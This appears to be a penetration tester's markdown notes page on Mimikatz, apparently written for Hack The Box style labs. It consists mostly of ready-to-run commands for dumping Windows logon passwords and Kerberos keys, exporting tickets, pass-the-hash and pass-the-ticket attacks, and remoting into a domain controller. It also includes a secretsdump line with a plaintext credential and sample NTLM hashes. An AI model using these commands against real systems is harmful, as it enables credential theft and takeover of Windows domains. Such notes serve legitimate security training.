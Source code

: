 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```


[Home · gentilkiwi/mimikatz Wiki · GitHub](https://github.com/gentilkiwi/mimikatz/wiki)
## Guide

1. [Mimikatz – Active Directory Security](https://adsecurity.org/?page_id=1821)
2. [Mimikatz | HackTricks | HackTricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz)

For Linux systems see a Python implementation: [pypykatz](https://github.com/skelsec/pypykatz)
## Walkthrough 

1. See [[System Monitor (Sysmon)#Detection Example 3 Detecting Credential Dumping]]

## Usage 

```cmd-session
mimikatz.exe
```
### Secrets Dump

```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```

### Dump Passwords

```cmd
privilege::debug
sekurlsa::logonpasswords
```
### Pass the Hash

Mimikatz has a module named `sekurlsa::pth` that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password. To use this module, we will need the following:

- `/user` - The user name we want to impersonate.
- `/rc4` or `/NTLM` - NTLM hash of the user's password.
- `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
- `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

```cmd-session
 mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

### Export Tickets

See [[Pass the Ticket (PtT) Windows]]

```cmd-session
mimikatz.exe
```

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::tickets /export
```

> [!NOTE]
> At the time of writing, using Mimikatz version 2.2.0 20220919, if we run `sekurlsa::ekeys` it presents all hashes as des_cbc_md4 on some Windows 10 versions. Exported tickets `sekurlsa::tickets /export` do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use [[Rubeus]] to export tickets in base64 format.


##### Extract Kerberos Keys

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::ekeys
```

##### Pass the Key or OverPass the Hash

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

This will create a new `cmd.exe` window that we can use to request access to any service we want in the context of the target user.

### Pass the Ticket

```cmd-session
privilege::debug
```

```cmd-session
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```


### Pass The Ticket with PowerShell Remoting

```cmd-session
privilege::debug
```

```cmd-session
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```

```
exit
```

```cmd-session
powershell
```

```cmd-session
Enter-PSSession -ComputerName DC01
```
